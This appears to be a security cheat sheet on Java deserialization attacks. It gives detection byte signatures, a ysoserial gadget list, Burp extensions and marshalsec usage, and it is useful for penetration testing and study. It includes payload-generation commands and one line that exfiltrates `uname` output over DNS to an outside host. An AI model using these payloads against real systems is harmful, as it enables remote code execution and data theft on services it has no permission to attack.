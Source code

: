 # Java Deserialization

## Summary

* [Detection](#detection)
* [Tools](#tools)
  * [Ysoserial](#ysoserial)
  * [Burp extensions using ysoserial](#burp-extensionsl)
  * [Alternative Tooling](#alternative-tooling)
* [References](#references)


## Detection

- `"AC ED 00 05"` in Hex
  * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
  * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**
```ps1
Payload             Authors                                Dependencies                                                                                                                                                                                        
-------             -------                                ------------                                                                                                                                                                                        
AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        
Hibernate1          @mbechler                                                                                                                                                                                                                                  
Hibernate2          @mbechler                                                                                                                                                                                                                                  
JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
JRMPClient          @mbechler                                                                                                                                                                                                                                  
JRMPListener        @mbechler                                                                                                                                                                                                                                  
JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
Jdk7u21             @frohoff                                                                                                                                                                                                                                   
Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
Myfaces1            @mbechler                                                                                                                                                                                                                                  
Myfaces2            @mbechler                                                                                                                                                                                                                                  
ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
URLDNS              @gebl                                                                                                                                                                                                                                      
Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4   
```

### Burp extensions

- [NetSPI/JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller) -  Burp extension to perform Java Deserialization Attacks 
- [federicodotta/Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner) -  All-in-one plugin for Burp Suite for the detection and the exploitation of Java deserialization vulnerabilities 
- [summitt/burp-ysoserial](https://github.com/summitt/burp-ysoserial) -  YSOSERIAL Integration with Burp Suite 
- [DirectDefense/SuperSerial](https://github.com/DirectDefense/SuperSerial) - Burp Java Deserialization Vulnerability Identification
- [DirectDefense/SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active) - Java Deserialization Vulnerability Active Identification Burp Extender


### Alternative Tooling

- [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget) - Pure JRE 8 RCE Deserialization gadget
- [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) - A fork of the original ysoserial application 
- [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java serialization brute force attack tool
- [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - A tool to dump Java serialization streams in a more human readable form
- [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe) - Exploiting Deserialization to Brute-Force the Remote Classpath
- [k3idii/Deserek](https://github.com/k3idii/Deserek) - Python code to Serialize and Unserialize java binary serialization format. 
  ```java
  java -jar ysoserial.jar URLDNS http://xx.yy > yss_base.bin
  python deserek.py yss_base.bin --format python > yss_url.py
  python yss_url.py yss_new.bin
  java -cp JavaSerializationTestSuite DeSerial yss_new.bin
  ```
- [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution
  ```java
  $ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
  $ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
  $ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
  // -a - generates/tests all payloads for that marshaller
  // -t - runs in test mode, unmarshalling the generated payloads after generating them.
  // -v - verbose mode, e.g. also shows the generated payload in test mode.
  // gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  // arguments - Gadget specific arguments
  ```

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE


## References

- [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau - March 22, 2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [How I found a $1500 worth Deserialization vulnerability - Ashish Kunwar - August 28, 2018](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Jackson CVE-2019-12384: anatomy of a vulnerability class - Andrea Brancaleoni - July 22, 2019](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [Java-Deserialization-Cheat-Sheet - Aleksei Tiurin - May 23, 2023](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - Peter Stöckli - August 14, 2017](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know - cowtowncoder - December 22, 2017](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin (@artsploit) - June 29, 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
- [Triggering a DNS lookup using Java Deserialization - paranoidsoftware.com - July 5, 2020](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [Understanding & practicing java deserialization exploits - Diablohorn - September 9, 2017](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)